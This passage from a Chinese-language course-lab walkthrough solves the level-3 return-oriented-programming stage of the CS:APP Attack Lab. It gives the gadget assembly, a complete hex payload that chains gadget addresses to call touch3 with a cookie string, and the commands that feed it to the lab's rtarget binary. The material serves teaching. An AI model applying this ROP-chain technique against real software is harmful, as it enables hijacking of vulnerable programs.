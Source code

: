 这段gadget合并起来的汇编代码为

```text
movq %rsp, %rax
movq %rax, %rdi
popq %rax #save offset into %rax
movl %eax, %edx
movl %edx, %ecx
movl %ecx, %esi
callq add_xy
movq %rax, %rdi
callq touch3
```

所以我们可以创建一个文件`ROP-L3.txt`，保存以下内容

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* match 40 */
ad 1a 40 00 00 00 00 00 /* gadget 1: movq %rsp, %rax */
c5 19 40 00 00 00 00 00 /* gadget 2: movq %rax, %rdi */
ab 19 40 00 00 00 00 00 /* gadget 3 : popq %rax */
48 00 00 00 00 00 00 00 /* offset */
42 1a 40 00 00 00 00 00 /* gadget 4: movl %eax, %edx */
34 1a 40 00 00 00 00 00 /* gadget 5: movl %edx, %ecx */
13 1a 40 00 00 00 00 00 /* gadget 6: movl %ecx, %esi */
d6 19 40 00 00 00 00 00 /* add_xy */
c5 19 40 00 00 00 00 00 /* gadget 7: movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* touch 3 */
35 39 62 39 39 37 66 61 00 /* string */
```

最后运行命令`./hex2raw < ROP-L3.txt > ROP-L3-raw.txt`将其转化为字符串，然后运行`./rtarget -q < ROP-L3-raw.txt`

![img](pics/v2-224cc9f170da1e1565156d98f68d18b2_720w.jpg)